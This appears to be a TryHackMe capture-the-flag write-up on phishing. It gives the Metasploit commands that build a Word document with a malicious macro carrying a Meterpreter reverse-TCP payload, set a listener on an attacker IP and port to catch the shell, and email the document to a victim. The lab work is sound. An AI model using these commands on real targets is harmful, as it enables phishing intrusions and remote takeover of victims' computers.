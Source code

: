 Today we learn about phishing attacks. We learn to create a document with a malicious macro and use that for a phishing attack.

Firstly our job is to create the document with the malicious macro. We do this by using the metasploit framework. We run the following commands in order:
+ `set payload windows/meterpreter/reverse_tcp` specifies the payload we are going to use.
+ `use exploit/multi/fileformat/office_word_macro` specifies the exploit we are going to use.
+ `set LHOST 10.10.118.252` specifies the ip of the attacker's system
+ `set LPORT 8888` specifies the listening port.
+ `exploit` generates the macro and embeds it into the document.

Now we need to listen in for the incoming connections. We can do so by using the metasploit framework again by running the following commands in order:
+ `use multi/handler` which handles incoming connections
+ `set payload windows/meterpreter/reverse_tcp` ensures the payload works with the payload we used while creating the macro.
+ `set LHOST 10.10.118.252` specifies the ip of the attacker's system.
+ `set LPORT 8888` specifies the listening port.
+ `exploit` to extablish a reverse shell.

Now with the credentials provided we send an email to the victim and wait for the reverse shell to start. Once we get back the reverse shell we do `cat flag.txt` to get our flag.

```
meterpreter > cat flag.txt
THM{PHISHING_CHRISTMAS}meterpreter > 
```
